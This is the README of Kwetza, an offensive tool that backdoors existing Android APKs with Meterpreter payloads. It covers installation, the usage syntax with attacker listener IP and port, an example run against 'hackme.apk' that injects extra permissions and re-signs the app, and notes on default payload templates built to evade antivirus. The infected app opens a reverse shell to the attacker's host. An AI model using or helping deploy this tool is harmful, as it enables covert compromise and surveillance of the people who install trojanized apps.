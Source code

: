 # Introduction
[![Arsenal](https://rawgit.com/toolswatch/badges/master/arsenal/2017.svg)](http://www.toolswatch.org/2017/06/the-black-hat-arsenal-usa-2017-phenomenal-line-up-announced/)

By Agh0r1 (@crazetocode) agh0r1@blackhost.xyz

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

# What does it do?

Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissions to gain additional functionality.

# Where can I get the blogpost?
The manual steps automated by Kwetza can be found here: https://lucideustech.blogspot.in/2018/03/the-black-hat-art-of-backdooring_3.html

# Getting the code

Firstly get the code:
```
git clone https://github.com/agh0r1-hacker/kwetza.git
```

Kwetza is written in Python and requires BeautifulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

# Usage

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = name of the APK you wish to infect.
* https/tcp = select either a HTTPS or TCP connection
* LHOST = IP of your listener.
* LPORT = Port of your listener.
* yes = include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.
* customClass = Specify a custom activity here if you want Kwetza to inject into this activity.

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# Information

Kwetza has been developed to work with Python 2.

Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk.

If you would like to sign the infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the reference in the kwetza.py.

The same can be done for payload templates.

The password for the default keystore is, well, "password".

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

